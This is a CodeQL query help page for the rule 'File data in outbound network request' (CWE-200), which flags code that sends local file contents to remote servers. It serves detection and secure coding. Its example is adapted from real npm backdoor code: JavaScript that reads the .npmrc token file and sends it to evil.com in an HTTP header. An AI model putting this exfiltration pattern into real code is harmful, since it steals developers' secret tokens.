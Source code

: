 # File data in outbound network request

```
ID: js/file-access-to-http
Kind: path-problem
Severity: warning
Precision: medium
Tags: security external/cwe/cwe-200

```
[Click to see the query in the CodeQL repository](https://github.com/github/codeql/tree/main/javascript/ql/src/Security/CWE-200/FileAccessToHttp.ql)

Sending local file system data to a remote URL without further validation risks uncontrolled information exposure, and may be an indication of malicious backdoor code that has been implanted into an otherwise trusted code base.


## Recommendation
Examine the highlighted code closely to ensure that it is behaving as intended.


## Example
The following example is adapted from backdoor code that was identified in two popular npm packages. It reads the contents of the `.npmrc` file (which may contain secret npm tokens) and sends it to a remote server by embedding it into an HTTP request header.


```javascript
var fs = require("fs"),
    https = require("https");

var content = fs.readFileSync(".npmrc", "utf8");
https.get({
  hostname: "evil.com",
  path: "/upload",
  method: "GET",
  headers: { Referer: content }
}, () => { });

```

## References
* ESLint Blog: [Postmortem for Malicious Packages Published on July 12th, 2018](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes).
* OWASP: [Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10-2017_A3-Sensitive_Data_Exposure).
* OWASP: [Trojan Horse](https://www.owasp.org/index.php/Trojan_Horse).
* Common Weakness Enumeration: [CWE-200](https://cwe.mitre.org/data/definitions/200.html).